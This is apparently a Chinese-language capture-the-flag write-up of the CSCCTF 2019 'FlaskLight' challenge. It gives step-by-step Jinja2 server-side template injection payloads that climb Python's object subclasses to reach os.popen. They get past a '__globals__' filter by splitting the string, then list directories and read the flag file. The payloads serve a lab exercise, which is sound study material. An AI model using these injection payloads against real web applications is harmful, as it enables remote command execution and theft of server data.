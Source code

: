```yaml
---
title: CSCCTF 2019 Qual FlaskLight
date: 2024-05-29 21:56:13
tags: ssti
categories: 刷题笔记
---
```


## [CSCCTF 2019 Qual]FlaskLight（ssti）

进入页面后，我们先查看源码

<!-- more -->

![image-20240530140700391](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405301407502.png)

发现它传参和传参的类型

我们尝试ssti模版注入，成功执行，为jinjia2模版

![image-20240530140750162](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405301407268.png)

我们寻找rce可以借助的类

先获取变量[]所属的类名

```
{{[].__class__}}
```

页面回显<type 'list'>

再获取list所继承的基类名

```
{{[].__class__.__base__}
```

页面回显<type 'object'>

最后获取所有继承自object的类

```
{{[].__class__.__base__.__subclasses__()}}
```

这里回显了很长一个列表，这里可以将这些数据放在列表中，通过list.index输出想要的类在第几位。不过需要对这传数据进行简单的处理（将<>换成""）  

![image-20240530141305245](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405301413426.png)

通过查询可知，可以借助类<class'warnings.catch_warnings'>，没有内置os模块在第59位。<class 'site._Printer'> 内含os模块 在第71位，可以借助这些类来执行命令。



#### **不含os模块的类warnings.catch_warnings**

进行命令执行

**先读取目录**

```
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```

  由于使用['__globals__']会造成500的服务器错误信息，并且当我直接输入search=globals时页面也会500，觉得这里应该是被过滤了，所以这里采用了字符串拼接的形式['__glo'+'bals__']

![image-20240530142041861](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405301420998.png)

**查看flasklight目录**

```
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls ./flasklight').read()")}}
```

![image-20240530142133856](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405301421018.png)

**打开** **coomme_geeeett_youur_flek文件**

```
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('cat ./flasklight/coomme_geeeett_youur_flek
').read()")}}
```

得到flag

![image-20240530142241454](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405301422615.png)

### **内含os模块的类** **class'site._Printer'**

​    **目录查询**

```
 {{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}
```

​    因为这里listdir同样被ban了
   **读取目录flasklight**

```
    {{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls /flasklight').read()}}
```

​     **读取flag**

```
  {{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat coomme_geeeett_youur_flek').read()}}
```

